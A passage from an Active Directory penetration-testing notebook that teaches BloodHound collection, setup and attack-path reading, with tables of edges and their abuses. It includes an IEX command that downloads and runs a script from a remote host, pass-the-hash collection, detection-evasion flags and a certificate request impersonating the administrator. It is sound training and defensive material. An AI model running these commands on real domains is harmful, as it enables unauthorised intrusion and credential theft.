






This is Chapter 2 of the Active Directory attack notebook — Notebook 18. Chapter 1 built the mindset: assume the breach, treat identity as terrain, and think of a domain compromise as a repeatable lifecycle rather than a bag of tricks. It also introduced BloodHound in passing as the tool that turns that lifecycle into a picture. This chapter is where BloodHound stops being a name and becomes a skill you can drive precisely — from the moment a collector touches the domain to the moment you read a shortest path to Domain Admin off the screen and know exactly which edge to abuse first.

The single idea that makes this chapter worth its length is this: **Active Directory is a graph, and attackers who see the graph beat defenders who only see the boxes.** A domain admin looks at a network as a list of servers and a list of users. BloodHound looks at the *relationships between them* — who is a member of what, who has a session where, who can reset whose password, who can write to whose access control list — and computes the transitive closure of those relationships. That closure is where 90% of real AD compromises live: not in a single exploitable machine, but in a chain of individually-boring permissions that together form a road from a nobody account to the top of the domain.

Everything here changes state on infrastructure that runs entire organisations, and BloodHound collection in particular is *noisy* if you do it carelessly. That makes authorisation non-negotiable. Every command in this chapter assumes an explicit, written, scoped engagement or a lab you built yourself. Running collection against a domain you are not authorised to test is unlawful unauthorised-access activity everywhere on earth. Build the lab described in Part 12, point the collectors at your own domain controllers, and keep every query inside that boundary.

---

## Part 1: Why a Graph, and Why It Changed AD Attacking Forever

Before BloodHound was released at DEF CON 24 in 2016 by Andy Robbins, Rohan Vazarkar, and Will Schroeder, mapping a path to Domain Admin was a manual, error-prone slog. You would dump group memberships with `net group`, pull a list of who was logged on where with `PsLoggedon`, cross-reference by hand on a whiteboard, and hope you spotted the one helpdesk group whose members could reset an executive's password. On a domain with 200 users this was tedious. On a domain with 40,000 users, 15,000 computers, and 3,000 groups it was simply impossible — the number of possible chains grows combinatorially, and no human holds that many relationships in their head.

BloodHound's insight was to model the domain as a **directed graph** and let a graph database do the reasoning. In graph terms:

- **Nodes** are the security principals and objects of the domain: users, computers, groups, GPOs, OUs, domains, containers, and (in modern versions) certificate authorities and certificate templates.
- **Edges** are directed relationships that carry *attack meaning*: `A -[MemberOf]-> B`, `A -[AdminTo]-> C`, `A -[HasSession]-> D`, `A -[GenericAll]-> E`. Each edge type encodes "principal A can do something to principal B that advances an attacker."

Once the domain is a graph, "how do I get from my foothold user to Domain Admin?" becomes a *pathfinding query* — the exact same shortest-path problem that a GPS solves for roads. The graph database (Neo4j) computes it in milliseconds across millions of edges. The attacker's creativity moves up a level: instead of *finding* the path, you spend your energy *choosing which path is quietest and abusing the specific edge it hands you*.

> **Mental hook:** In host exploitation the vulnerability is a bug in the software. In BloodHound the vulnerability is a *route through the org chart* — a sequence of legitimate permissions that nobody intended to be chainable, but which the graph reveals in one query.

**Why this is different from a vulnerability scanner.** Nessus or OpenVAS asks "is this individual machine missing a patch?" BloodHound asks "given everything I can see about identities and their permissions, what is the shortest sequence of *authorised actions* that ends in domain dominance?" Most of the edges BloodHound finds are not CVEs and never will be — they are `GenericAll` on an OU because a junior admin was over-delegated, or a stale `AdminTo` from a decommissioned project, or an unconstrained-delegation flag on a print server. Working exactly as designed, dangerous only in combination. That is why BloodHound remains devastating years after its release: patching does not fix org-chart geometry.

---

## Part 2: The BloodHound Family — Legacy, Community Edition, Enterprise, and the Collectors

"BloodHound" is now an ecosystem, and knowing which piece you are holding matters because the query language, edge names, and data format differ across versions. Getting this wrong wastes an engagement's most valuable hours.

| Component | What it is | When you'll meet it |
|-----------|-----------|---------------------|
| **BloodHound Legacy (≤ 4.3.1)** | The original Electron desktop app backed by a local Neo4j. JSON ingest, drag-drop into the GUI. | Older writeups, HTB machines, air-gapped kits. Deprecated but everywhere. |
| **BloodHound Community Edition (CE, 5.x/6.x+)** | Rewritten as a web app (Docker-compose: Postgres + Neo4j + a Go API + React UI). Ingests the *same* SharpHound JSON but via an API/upload. | The current standard. New edges (ADCS, NTLM relay coercion) land here first. |
| **BloodHound Enterprise (BHE)** | SaaS/defensive product. Continuous collection, "attack path management," exposure scoring. Same graph model, defender-facing. | Blue-team and purple-team engagements; you may be *asked* to reduce its findings. |
| **SharpHound (C#)** | The primary collector: `SharpHound.exe` compiled binary or the `SharpHound.ps1` in-memory PowerShell wrapper. Runs on a domain-joined (or reachable) Windows context. | Default choice from a Windows foothold. |
| **bloodhound-python (BloodHound.py)** | A pure-Python collector using Impacket. Runs from Linux/Kali with just a credential — no Windows box needed. | Default choice from a Kali attacker box with creds but no shell on a domain machine. |
| **RustHound / RustHound-CE** | A fast, cross-platform Rust collector; low footprint, good for large domains. | Big environments, evasion-conscious ops. |
| **AzureHound** | The Entra ID / Azure sibling. Collects the Microsoft Graph + ARM into the *same* BloodHound graph (Azure edges). | Hybrid and cloud-heavy targets. Out of scope for the on-prem lab here but named for completeness. |

**Golden rule for this chapter:** the *collector* produces JSON; the *UI/database* consumes it. You can collect with SharpHound and view in CE, or collect with bloodhound-python and view in Legacy, as long as the **collector's output schema version matches what the UI expects**. Version mismatches are the single most common "why is my graph empty" failure — CE expects SharpHound v2 output; feeding it ancient v3-format JSON from a 2019 SharpHound will silently import nothing useful.



The separation in that diagram is the most important operational fact in the whole chapter: **collection is loud and touches production; analysis is silent and happens on your laptop.** Every risk you take is on the left. Everything on the right is a read against your own database. Plan accordingly.

---

## Part 3: What the Collector Actually Does — Collection Methods From Scratch

To use SharpHound well you must know what each collection method *queries*, because each one has a different noise profile, a different privilege requirement, and a different failure mode. SharpHound is not magic — it is a disciplined set of LDAP searches, SMB connections, and RPC calls wrapped around the same protocols Chapter 1's networking notebook covered. Here is every method, taught from the wire up.

### The two data sources SharpHound draws from

1. **LDAP to the domain controller** (TCP 389 / 636). This is where the *structural* data comes from: every user, group, computer, OU, GPO, trust, and — critically — the **security descriptors (ACLs)** on objects. LDAP is authenticated with your foothold credential and, from the DC's point of view, looks like a very thorough directory browse. One authenticated session reading the whole directory is unusual for a normal user but not exploit traffic.

2. **Direct connections to member computers** (SMB TCP 445, RPC). This is where the *behavioural* data comes from: who is logged on where (`HasSession`), who is a member of a machine's local Administrators group (`AdminTo` / `LocalGroup`), what services run as which accounts. This is the **loud** half — thousands of connections fanning out from your foothold to every workstation and server. This is what gets ops caught.

### Collection methods, one by one

| Method (`-c` / `--collectionmethods`) | Protocol | What it produces | Noise | Privilege needed |
|---|---|---|---|---|
| `Group` | LDAP | Group memberships → `MemberOf` edges | Low | Any domain user |
| `LocalAdmin` | SMB/SAMR | Local Administrators of each host → `AdminTo` | **High** (touches every host) | Often needs admin on target for SAMR; falls back |
| `RDP` | SMB/SAMR | Remote Desktop Users group → `CanRDP` | High | As above |
| `DCOM` | SMB/SAMR | Distributed COM Users → `ExecuteDCOM` | High | As above |
| `PSRemote` | SMB/SAMR | Remote Management Users → `CanPSRemote` | High | As above |
| `Session` | SRVSVC/WKSSVC (RPC) | Logged-on users → `HasSession` | **High** | Historically any user; hardened by KB5008383 |
| `LoggedOn` | Remote Registry / RPC | Alternative session enumeration | High | Often needs local admin |
| `Trusts` | LDAP | Domain/forest trusts → `TrustedBy` | Low | Any domain user |
| `ACL` | LDAP | DACLs on objects → `GenericAll`, `WriteDacl`, etc. | Low | Any domain user |
| `Container` | LDAP | OU/GPO structure → `Contains`, `GPLink` | Low | Any domain user |
| `GPOLocalGroup` | LDAP | Local group membership *derived from GPO* (no host touch!) | **Low** | Any domain user |
| `ObjectProps` | LDAP | Node properties (descriptions, lastlogon, pwdlastset, SPNs) | Low | Any domain user |
| `SPNTargets` | LDAP | Kerberoastable service accounts → SPN edges | Low | Any domain user |
| `CARegistry` / `CertServices` / `DCRegistry` | LDAP + remote registry | ADCS CAs & templates → ESC edges (BloodHound CE) | Medium | Varies |
| `Default` | mix | `Group, LocalAdmin, Session, Trusts, ACL, ObjectProps, Container, SPNTargets` | High | Any user (partial) |
| `DCOnly` | LDAP only | Everything obtainable from the DC alone — no member-host touch | **Very low** | Any domain user |
| `All` | everything | Every method above | Highest | Any user (partial) |

**The single most important operational choice** is `DCOnly` versus `Default`/`All`. `DCOnly` never talks to a workstation — it derives what it can purely from LDAP on the DC (including, cleverly, `GPOLocalGroup` to infer local admin rights from Group Policy Preferences instead of touching hosts). It is dramatically quieter and often *enough* to find a path, because ACL-based edges (the juiciest ones) live entirely in LDAP. The trade-off: you lose live `HasSession` data, which is what tells you *where a Domain Admin is currently logged in* — frequently the last hop of a path. Real tradecraft: run `DCOnly` first, read the graph, and only fire targeted `Session` collection at the *specific* hosts a path needs.



---

## Part 4: SharpHound From Scratch — Install, Run, Every Flag Explained

SharpHound is the C# collector maintained alongside BloodHound. The first time you use any tool in this notebook it gets taught from zero, so here is SharpHound end to end.

**What it is:** a .NET assembly that enumerates the domain and writes a timestamped ZIP of JSON files. It ships two ways: `SharpHound.exe` (a compiled binary you drop on a Windows host) and `SharpHound.ps1` (a PowerShell wrapper that reflectively loads the assembly in memory — useful when you can run PowerShell but don't want a binary on disk). Both come from the `BloodHoundAD/SharpHound` GitHub releases; **always match the SharpHound major version to your BloodHound UI** (SharpHound v2.x → BloodHound CE; the old `SharpHound.ps1` from BloodHound 4.x → Legacy).

**Getting it:** on your attacker/staging box, download the release ZIP, or compile from source in Visual Studio (`SharpHound.sln` → Release build). For labs, the precompiled `Collectors/SharpHound.exe` shipped inside the BloodHound release is fine.

### Core run — the command you'll type most

```powershell
# From a domain-joined Windows foothold, running as any domain user:
.\SharpHound.exe -c All --zipfilename corp_full --outputdirectory C:\Windows\Temp\
```

### Quiet run — the one you should default to on real engagements

```powershell
.\SharpHound.exe -c DCOnly --zipfilename corp_dconly --outputdirectory C:\Windows\Temp\ --randomfilenames
```

### Every flag that matters, explained

| Flag | Meaning | Why you care |
|---|---|---|
| `-c` / `--collectionmethods` | Comma-list of methods (`All`, `DCOnly`, `Default`, `Session`, `ACL`, ...) | The single biggest noise lever — see Part 3. |
| `-d` / `--domain` | Target domain FQDN, e.g. `corp.local` | Needed for cross-domain / when not domain-joined. |
| `--domaincontroller` | Pin a specific DC by IP/host | Force collection through one DC (useful with a tunnel, or to avoid a monitored DC). |
| `--ldapusername` / `--ldappassword` | Explicit LDAP creds | Run under different credentials than the current process token. |
| `--outputdirectory` | Where the ZIP lands | Put it somewhere you can exfil; avoid the user's Desktop. |
| `--zipfilename` | Base name of the output ZIP | Label per-collection so you don't mix runs. |
| `--randomfilenames` | Randomise the JSON/ZIP names | Defeats naive filename-based detections (`*_BloodHound.zip`). |
| `--outputprefix` | Prefix on filenames | Organisation across multiple runs. |
| `--stealth` | "Stealth" session enum — only queries hosts you've *already* got a reason to touch | Big noise reduction for `Session`; less complete. |
| `--throttle` | Milliseconds to wait between requests | Slow the fan-out to stay under rate-based detections. |
| `--jitter` | Percentage jitter on the throttle | Randomise timing so it doesn't look like a scanner's metronome. |
| `--loop` | Repeat collection on an interval | Catch sessions that appear later (e.g. wait for a DA to log in). |
| `--loopduration` / `--loopinterval` | How long / how often to loop | Pair with `Session` to snapshot logins over hours. |
| `--collectallproperties` | Pull every LDAP attribute | Richer node props (descriptions often hold passwords!). |
| `--excludedcs` | Skip DCs during member enumeration | Avoid extra DC touches. |
| `--ldapport` / `--secureldap` | 389 vs 636 (LDAPS) | Use LDAPS where LDAP is blocked or logged more heavily. |

**Realistic output** you'd see from the quiet run:

```
09:14:22 |INFORMATION| Resolved Collection Methods: Group, Container, ACL, ObjectProps, Trusts, GPOLocalGroup, DCRegistry
09:14:22 |INFORMATION| Initializing SharpHound at 9:14 AM
09:14:23 |INFORMATION| Loaded cache with stats: 0 ID to type mappings ...
09:14:24 |INFORMATION| Beginning LDAP search for CORP.LOCAL
09:14:55 |INFORMATION| Status: 0 objects finished (+0) -- Using 41 MB RAM
09:15:25 |INFORMATION| Status: 4213 objects finished (+4213 70/s) -- Using 96 MB RAM
09:16:02 |INFORMATION| Enumeration finished in 00:01:37.9
09:16:03 |INFORMATION| SharpHound Enumeration Completed! Happy Graphing!
09:16:03 |INFORMATION| Saving cache with stats: 4102 ID to type mappings
09:16:03 |INFORMATION| Output written to C:\Windows\Temp\corp_dconly_BloodHound.zip
```

That final ZIP is inert data — copy it to your analysis box and never worry about it triggering anything again.

**In-memory variant (no binary on disk):**

```powershell
# Reflectively load the PowerShell ingestor and invoke it
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.5/SharpHound.ps1')
Invoke-BloodHound -CollectionMethod DCOnly -OutputDirectory C:\Windows\Temp\ -ZipFileName corp
```

**Red team usage:** SharpHound run with `--randomfilenames --throttle 1000 --jitter 30 -c DCOnly` is a defensible collection posture — quiet, LDAP-only, no host fan-out. **Blue team usage:** conversely, a single account performing an LDAP search that touches *every object class in the directory* within 90 seconds is one of the highest-signal detections available; more on the exact event IDs in Part 11.

---

## Part 5: bloodhound-python — Collecting From Kali With Only a Credential

Very often you are not on a Windows box. You popped a credential from Responder, or the client handed you `corp.local\jsmith:Summer2026!`, and you are sitting on Kali. You do not need a Windows foothold to collect — `bloodhound-python` (the `BloodHound.py` project) speaks LDAP and SMB directly via Impacket.

**What it is:** a pure-Python ingestor that authenticates to the DC over LDAP, walks the directory, and optionally connects to member hosts over SMB for session/local-group data — all from Linux. It produces the same JSON ZIP SharpHound does.

**Install (Kali):**

```bash
pipx install bloodhound          # preferred, isolated
# or
sudo apt install bloodhound.py   # distro package
# for BloodHound CE schema output, use the CE-aware fork:
pipx install bloodhound-ce
```

**Core run:**

```bash
bloodhound-python -u 'jsmith' -p 'Summer2026!' -d corp.local \
  -ns 10.10.10.10 -c DCOnly --zip
```

**Every flag explained:**

| Flag | Meaning |
|---|---|
| `-u` / `-p` | Username / password. Use `-p ''` to be prompted, or `--hashes LM:NT` for pass-the-hash. |
| `-d` | Domain FQDN. |
| `-ns` | Nameserver — **point this at the DC's IP**, because collection depends on resolving hostnames the domain owns. This is the #1 gotcha: wrong DNS = empty computers. |
| `-dc` | Explicit DC hostname if auto-discovery fails. |
| `-gc` | Global Catalog server (for cross-domain / forest data). |
| `-c` | Collection methods — same vocabulary as SharpHound (`DCOnly`, `All`, `Session`, `ACL`, ...). |
| `--zip` | Bundle the JSON into a ZIP ready for upload. |
| `-k` / `--kerberos` | Use Kerberos auth (pair with a `KRB5CCNAME` ticket for pass-the-ticket collection). |
| `--hashes` | `LMHASH:NTHASH` for pass-the-hash collection without the plaintext. |
| `--dns-tcp` | Force DNS over TCP (useful through SOCKS tunnels where UDP breaks). |
| `--use-ldaps` | LDAP over TLS (636). |

**Realistic output:**

```
INFO: Found AD domain: corp.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.corp.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 217 computers
INFO: Connecting to LDAP server: dc01.corp.local
INFO: Found 1043 users
INFO: Found 51 groups
INFO: Found 2 gpos
INFO: Found 9 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Done in 00M 21S
INFO: Compressing output into 20260101091455_bloodhound.zip
```

**Pass-the-hash collection** (you have an NT hash but no plaintext — extremely common after LSASS or an NTLM relay):

```bash
bloodhound-python -u 'svc_backup' --hashes :2b576acbe6bcfda7294d6bd18041b8fe \
  -d corp.local -ns 10.10.10.10 -c DCOnly --zip
```

**Through a SOCKS tunnel** (you have a foothold host as a pivot, per Chapter 1's tunneling): run bloodhound-python under `proxychains` and force DNS over TCP so name resolution survives the proxy:

```bash
proxychains -q bloodhound-python -u jsmith -p 'Summer2026!' -d corp.local \
  -ns 10.10.10.10 --dns-tcp -c DCOnly --zip
```

**CTF/lab relevance:** on HackTheBox and TryHackMe AD boxes you almost always start with a single credential on Kali and no Windows shell — `bloodhound-python -c All` is the reflex first move once you have any domain cred. **Pentester landing with a lone credential:** this is the fastest way from "I have one user" to "I can see the whole attack surface" without ever touching a target workstation if you use `-c DCOnly`.

---

## Part 6: Standing Up BloodHound CE and Loading Data

Collection produced a ZIP. Now you need somewhere to reason about it. BloodHound Community Edition is the current standard and runs as a Docker stack.

**Install (Docker Compose):**

```bash
# Grab the official compose file
curl -L https://ghst.ly/getbhce -o docker-compose.yml
docker compose pull
docker compose up -d
```

On first start CE prints a randomly generated admin password to the container logs — grab it:

```bash
docker compose logs bloodhound | grep -i "Initial Password"
# Initial Password Set To:    Xk9#mQ2vLp8rT4wZ
```

Browse to `http://localhost:8080`, log in as `admin` with that password, and set a new one. The stack is three services: **Postgres** (app state, users, saved queries), **Neo4j** (the graph itself, ports 7474 web / 7687 bolt), and the **BloodHound API + UI** (Go backend, React frontend on 8080).

**Legacy alternative (single Neo4j + Electron app)** — still common on air-gapped kits and HTB:

```bash
sudo neo4j console            # starts Neo4j on 7474; default creds neo4j:neo4j, change on first login
bloodhound                    # launches the Electron GUI; connect to bolt://localhost:7687
```

**Loading the ZIP:**

- **CE:** UI → *Administration → File Ingest → Upload File(s)* → drop the ZIP. The API unzips and streams it into Neo4j; a progress bar shows nodes/edges landing. Or automate via the API (`POST /api/v2/file-upload`).
- **Legacy:** drag the ZIP (or individual JSONs) straight onto the graph canvas.

**Verify the import worked** — this is where version mismatches surface. Run a trivial Cypher in the CE *Cypher* tab or the Neo4j browser:

```cypher
MATCH (n) RETURN labels(n) AS type, count(*) AS count ORDER BY count DESC
```

Expected output resembles:

```
type          count
["Base","User"]      1043
["Base","Computer"]   217
["Base","Group"]       51
["Base","GPO"]          2
["Base","OU"]           9
["Base","Domain"]       1
```

If every count is zero, your collector version and UI version disagree — re-collect with a matching SharpHound/bloodhound-ce build. This five-second check has saved more engagements than any single query.



---

## Part 7: Reading the Graph — Nodes, Edges, and What Each Edge Lets You Do

The graph is only useful if you can read an edge and instantly know the *abuse primitive* behind it. This is the heart of BloodHound tradecraft. Here are the edges you will actually chase, grouped by what they give you, with the concrete technique each unlocks.

### Membership and admin edges

| Edge | Meaning | What you do with it |
|---|---|---|
| `MemberOf` | Principal is in a group | Inherit every right the group holds. Groups are transitive — a chain of nested groups is one long `MemberOf` path. |
| `AdminTo` | Principal is local admin on a computer | Dump SAM/LSASS on that host → local creds, cached domain creds, tokens. |
| `HasSession` | A user has a session on a computer | If you're admin on that box, steal that user's token/credential (the classic pivot). |
| `CanRDP` | Principal may RDP to the host | Interactive access; harvest creds, run tools. |
| `CanPSRemote` | Principal may use PowerShell Remoting (WinRM) | `evil-winrm` straight in. |
| `ExecuteDCOM` | Principal may execute via DCOM | Lateral code execution primitive. |
| `SQLAdmin` | Principal is sysadmin on a MSSQL instance | `xp_cmdshell`, credential theft, coerced auth. |

### ACL / DACL edges — the crown jewels

These come from LDAP security descriptors and are the reason `-c ACL`/`DCOnly` is so powerful. Each is a permission on a *target object* that an attacker can convert into control.

| Edge | On the target you can... | Concrete abuse |
|---|---|---|
| `GenericAll` | Do anything | Reset password (user), add self to group, set SPN & Kerberoast, add `msDS-KeyCredentialLink` (Shadow Credentials). |
| `GenericWrite` | Write most attributes | Set a fake SPN → Kerberoast (Targeted Kerberoasting); Shadow Credentials; set `scriptPath`/logon script. |
| `WriteDacl` | Rewrite the object's ACL | Grant yourself `GenericAll`, then do the above. |
| `WriteOwner` | Take ownership | Owner can rewrite the DACL → `GenericAll`. |
| `Owns` | You already own it | Same as WriteOwner outcome. |
| `ForceChangePassword` | Reset the user's password without knowing the old one | Instant account takeover of that user. |
| `AddMember` | Add members to a group | Add yourself → inherit the group's rights (e.g. into "Server Admins"). |
| `AddSelf` | Add yourself specifically | Self-service into a security group. |
| `AllExtendedRights` | All extended rights on the object | Includes `User-Force-Change-Password` and, on the domain, **DCSync** rights. |
| `AddKeyCredentialLink` | Write `msDS-KeyCredentialLink` | **Shadow Credentials** — forge a cert to auth as the target (Whisker/Certipy). |
| `AddAllowedToAct` | Set `msDS-AllowedToActOnBehalfOfOtherIdentity` | **Resource-Based Constrained Delegation (RBCD)** attack. |
| `WriteSPN` | Write the servicePrincipalName | Targeted Kerberoasting. |

### Kerberos & delegation edges

| Edge | Meaning | Abuse |
|---|---|---|
| `AllowedToDelegate` | Constrained delegation configured | Impersonate users to the allowed service (S4U2Self/Proxy → often DA to a service). |
| `AllowedToAct` | RBCD configured on the target | Impersonate any user to the target computer. |
| `HasSPN` / Kerberoastable | Account has an SPN | **Kerberoast** — request a service ticket, crack it offline. |
| `DCSync` (via `GetChanges`+`GetChangesAll`) | Principal can replicate directory secrets | Pull every hash in the domain, including `krbtgt` → Golden Ticket. |
| `Owns`/`GenericAll` on the Domain object | Control of the domain head | Grant self DCSync, then replicate. |

### Container / GPO edges

| Edge | Meaning | Abuse |
|---|---|---|
| `Contains` | OU/container holds the object | Structural; sets up `GPLink` inheritance. |
| `GPLink` | A GPO is linked to an OU/site/domain | Control of that GPO = code execution on every object it applies to. |
| `WriteGPLink` | Can link GPOs | Link a malicious GPO to a juicy OU. |

### ADCS (certificate) edges — newer, devastating

BloodHound CE ingests Active Directory Certificate Services data and adds edges that model the ESC family of certificate-abuse techniques. These often provide a *direct* jump to Domain Admin that older graphs never showed.

| Edge / node | Meaning | Abuse |
|---|---|---|
| `Enroll` on a template | Principal may request a cert from this template | Precondition for ESC1/ESC2/ESC3 abuse |
| `ADCSESC1` | Enrollee-supplies-subject template + client-auth EKU | Request a cert *as any user* (incl. DA) → PKINIT → DA. `certipy req ... -upn administrator@corp.local` |
| `EnrollOnBehalfOf` | Enrollment agent right | ESC3 — enrol on behalf of a privileged user |
| `ManageCA` / `ManageCertificates` | CA administration rights | ESC7 — approve your own requests, issue arbitrary certs |
| `GoldenCert` / stolen CA key | Control of the CA private key | Forge certificates for anyone → domain-wide impersonation |

The abuse tool is **Certipy**: `certipy find -vulnerable` enumerates ESC1–ESC16 conditions, and `certipy req`/`certipy auth` performs the request-and-authenticate. When BloodHound draws an `ADCSESC1` edge from your foothold straight to the Domain node, that is frequently the *shortest and quietest* path in the entire graph — a single cert request, no password touched, no lockout.

### Coercion / NTLM-relay edges

